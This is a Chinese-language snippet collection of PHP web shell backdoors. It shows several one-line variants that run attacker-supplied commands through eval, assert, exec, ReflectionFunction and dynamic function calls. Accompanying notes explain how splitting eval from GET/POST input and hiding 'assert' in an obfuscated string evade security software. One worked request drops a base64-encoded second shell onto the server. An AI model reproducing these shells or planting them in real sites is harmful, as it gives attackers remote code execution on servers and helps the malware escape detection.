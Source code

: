 ```
<?php
//door.php?ctime=exec&atime=pwd

@extract( $_REQUEST );
@die ( $ctime( $atime ) );
?>

<?php
//door.php?p={"a":"system","b":"pwd"}

$p = json_decode( $_GET['p'], true );
echo '<pre>';
$config = new ReflectionFunction( $p['a'] );
$config->invoke( $p['b'] );
echo '</pre>';
?>
```

几个变形 PHP 一句话
------------

```
<?php $x=$_GET['z']; @eval("$x;");?>
```

一般的安全软件可能会将 eval+GET 或 POST 判定为后门程序，因此这种变形将 eval 和 GET 或者 POST 分开，能够绕过这种情况。

* * *

```
<?php
$a=str_replace(x,"","axsxxsxexrxxt");$a($_POST["code"]);
?>
```

请求参数

```
?code=fputs(fopen(base64_decode(J2MucGhwJw==),w),base64_decode("PD9waHAgQGV2YWwoJF9QT1NUW2FdKTs/Pg=="))
```

还原出的命令

```
assert(fputs(fopen('c.php',w),"<?php@eval($_POST[a]);?>"))
```

利用 assert 来执行命令，并且用字符串隐藏 assert 方法，并且利用它加上动态传入参数的方式构造后门。

* * *

```
<?php
$_GET['a']($_GET['b']);
?>
```
